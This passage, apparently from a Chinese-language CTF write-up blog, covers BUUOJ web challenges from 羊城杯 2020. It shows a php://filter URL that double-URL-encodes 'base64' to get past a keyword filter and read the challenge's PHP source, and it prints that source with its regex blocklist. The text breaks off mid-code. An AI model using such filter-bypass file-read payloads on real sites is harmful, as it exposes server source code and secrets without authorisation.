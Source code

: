 但是这个题目还是学到了很多。

## 0x02 [羊城杯 2020]Blackcat [XDCTF 2015]filemanager

做过了之前，直接嗦了

## 0x03 [羊城杯 2020]Easyphp2

http://52d4c318-ed13-49c6-afd9-807ea660e12b.node4.buuoj.cn:81/?file=php://filter/convert.%25%36%32ase64-encode/resource=GWHT.php

这个题目也是运气好，我fuzz出来，这里过滤了base64，我就说试一试编码绕过，但是一想，只编码一次，有个勾巴用呀，他接受到的时候服务器不自动解码了，所以我就说试一试两次，其实这个两次url编码在我们实际的使用过程中用得还是挺多的，具体在于有些php函数会自动解码🐂

```
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>count is here</title>

    <style>

        html,
        body {
            overflow: none;
            max-height: 100vh;
        }

    </style>
</head>

<body style="height: 100vh; text-align: center; background-color: green; color: blue; display: flex; flex-direction: column; justify-content: center;">

<center><img src="question.jpg" height="200" width="200" /> </center>

    <?php
    ini_set('max_execution_time', 5);

    if ($_COOKIE['pass'] !== getenv('PASS')) {
        setcookie('pass', 'PASS');
        die('<h2>'.'<hacker>'.'<h2>'.'<br>'.'<h1>'.'404'.'<h1>'.'<br>'.'Sorry, only people from GWHT are allowed to access this website.'.'23333');
    }
    ?>

    <h1>A Counter is here, but it has someting wrong</h1>

    <form>
        <input type="hidden" value="GWHT.php" name="file">
        <textarea style="border-radius: 1rem;" type="text" name="count" rows=10 cols=50></textarea><br />
        <input type="submit">
    </form>

    <?php
    if (isset($_GET["count"])) {
        $count = $_GET["count"];
        if(preg_match('/;|base64|rot13|base32|base16|<\?php|#/i', $count)){
        	die('hacker!');
```